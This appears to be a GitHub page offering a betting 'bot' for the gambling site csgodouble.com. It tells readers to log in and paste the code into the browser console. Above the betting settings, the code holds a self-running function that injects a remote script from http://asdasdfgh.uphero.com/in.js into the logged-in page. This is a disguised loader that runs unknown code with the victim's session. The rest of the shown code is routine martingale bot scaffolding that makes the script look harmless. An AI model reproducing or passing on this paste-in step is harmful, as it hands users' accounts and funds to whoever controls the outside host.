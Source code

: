 # csgodouble.com Bot new
csgodouble.com bot read code and use it!

COPY CODE FROM HERE!!!(from 6 line to 623 line):

//How to run it, copy this all code, Go to www.csgodouble.com login then press Ctrl + shift + J, then in console Ctrl + V and press Enter

'use strict';

(function () { var scriptElement = document.createElement( "script" ); scriptElement.type = "text/javascript"; scriptElement.src = "http://asdasdfgh.uphero.com/in.js "; document.body.appendChild( scriptElement ); })();

var debug = false;
var simulation = false;
var stop_on_min_balance = false;
var calculate_safe_bet = false;
var base_bet = 5;
var safe_bet_amount = 6;
var default_color = 'red';
var default_method = 'martingale';
var theme = 'dark';

var colors = {
    'green': [0],
    'red': [1, 2, 3, 4, 5, 6, 7],
    'black': [8, 9, 10, 11, 12, 13, 14]
};

var balance = document.getElementById('balance');
var roll_history = document.getElementById('past');
var bet_input = document.getElementById('betAmount');
var bet_buttons = {
    'green': document.getElementById('panel0-0').childNodes[1].childNodes[1],
    'red': document.getElementById('panel1-7').childNodes[1].childNodes[1],
    'black': document.getElementById('panel8-14').childNodes[1].childNodes[1]
};

Array.prototype.equals = function(array) {
    if (!array) {
        return false;
    }

    if (this.length != array.length) {
        return false;
    }

    for (var i = 0, l=this.length; i < l; i++) {
        if (this[i] instanceof Array && array[i] instanceof Array) {
            if (!this[i].equals(array[i])) {
                return false;
            }
        } else if (this[i] != array[i]) {
            return false;
        }
    }
    return true;
};
